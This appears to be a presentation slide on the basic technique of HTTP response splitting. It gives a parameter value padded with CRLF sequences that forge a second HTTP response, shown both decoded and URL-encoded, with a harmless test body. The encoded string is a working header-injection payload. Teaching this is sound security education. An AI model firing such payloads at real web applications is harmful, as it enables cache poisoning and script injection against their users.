

# HTTP Response Splitting-Basic Technique
en
	Content-Length: 0
	HTTP/1.1 200 OK
	Content-Type: text/html
	Content-Length: 28
	<html>http splitting test</html>
en%0D%0AContent-Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0AContent-Length%3A%2028%0D%0A%3Chtml%3Ehttp%20splitting%20test%3C%2Fhtml%3E